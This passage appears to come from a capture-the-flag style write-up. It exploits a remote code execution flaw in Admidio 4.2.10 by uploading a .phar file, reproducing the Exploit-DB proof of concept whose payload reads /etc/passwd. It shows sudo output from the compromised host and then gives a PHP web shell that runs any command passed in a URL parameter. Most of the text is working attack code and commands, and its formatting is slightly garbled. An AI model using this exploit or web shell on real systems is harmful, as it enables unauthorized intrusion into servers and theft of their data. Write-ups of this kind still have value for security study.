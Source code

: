 The results show multiple vulnerabilities for various versions, highlighting:

- **Admidio v4.2.10 – Remote Code Execution (RCE)**  
    Allows remote code execution via uploading `.phar` files in the announcements section.

___

# Exploiting RCE via File Upload

From the previous exploit, we get the following [Exploit and PoC](https://www.exploit-db.com/exploits/51590)

```txt
Exploit Title: Admidio v4.2.10 - Remote Code Execution (RCE)
Application: Admidio
Version: 4.2.10
Bugs:  RCE
Technology: PHP
Vendor URL: https://www.admidio.org/
Software Link: https://www.admidio.org/download.php
Date of found: 10.07.2023
Author: Mirabbas Ağalarov
Tested on: Linux
```

```python

2. Technical Details & POC
========================================
Steps:

3. Login to account
4. Go to Announcements
5. Add Entry
6. Upload .phar file in image upload section.
.phar file Content
<?php echo system('cat /etc/passwd');?>
5. Visit .phar file  ( http://localhost/admidio/adm_my_files/announcements/images/20230710-172217_430o3e5ma5dnuvhp.phar )
```

``` bash
www-data@admilost:~/html/adm_my_files/announcements/images$ sudo -l
Matching Defaults entries for www-data on admilost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on admilost:
    (ALL : ALL) NOPASSWD: /usr/local/bin/templater
```

Following the previous example, we upload a `.php` file with the following shell inside:

```php
<?php system($_GET['cmd']); ?>
```
